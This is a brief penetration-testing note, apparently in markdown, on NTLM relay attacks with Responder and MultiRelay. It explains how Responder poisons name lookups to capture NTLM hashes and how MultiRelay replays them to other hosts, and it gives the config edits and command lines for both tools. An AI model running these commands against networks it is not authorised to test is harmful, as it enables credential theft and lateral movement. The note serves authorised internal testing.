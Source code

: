  # Responder & Multirelay 
 
gain an initial foothold to machines via technique known as an NTLM relaying. This type of attack is generally performed on internal penetration testing engagements.

* Responder Flow

A internal PC request a share domain (SMB) that doesn't exist, No one will replay So that is the main role of Responder , it will reply with message that request the authentication NTML hash.

* Multirely Flow

It tries to sign in with taken NTML hash to any host in the network.

[Responder](https://github.com/lgandx/Responder)

> nano /usr/share/responder/Responder.conf

> set ( SMB = Off )  and ( HTTP = Off )

> ./Responder.py -I tap0 --lm


---
Multirelay

> ./Multirelay.py -t 192.168.x.x -u ALL
